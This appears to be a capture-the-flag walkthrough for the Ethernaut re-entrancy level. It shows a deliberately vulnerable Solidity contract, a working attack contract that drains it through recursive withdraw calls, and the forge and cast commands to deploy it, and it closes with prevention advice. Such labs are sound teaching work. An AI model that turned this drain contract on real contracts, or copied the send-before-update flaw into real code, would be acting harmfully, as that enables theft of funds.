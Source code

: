 ## Re-entrancy Level Outline

**Difficulty : 6/10**

The goal of this level is for you to steal all the funds from the contract.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D)

## Solution
Re-entrancy attacks continiously call the withdraw function from a vulnerable contract till it is drained. This happens because ETH is sent out of the contract before the ETH is deducted from it's mapping/tracking variable.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    Reentrance reentrance;  
    uint256 amount = 0.001 ether;

    constructor(address _reentrance) {
        reentrance = Reentrance(_reentrance); 
    }

    receive() external payable {
        if (address(reentrance).balance >= 0) {
            reentrance.withdraw(amount);
        }
    }

    function attack() public payable {
        reentrance.donate{value: msg.value}(address(this));
        reentrance.withdraw(amount);
    }
}

interface Reentrance {
    function withdraw(uint _amount) external;
    function donate(address _to) external payable;
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Attack --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call the "attack()" function on our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "attack()" --value 0.01ether --gas 200000 --private-key $PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
[Video](https://www.youtube.com/watch?v=4Mm3BCyHtDY&t=321s) showing example of Re-entrancy attack 

To prevent re-entrancy attacks, use the [Check-Effects-Interactions pattern](https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) or use OpenZepplin's [Reentrancy Guard Contract](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard)



---

##### [:arrow_left: Back To Main Menu](../README.md)
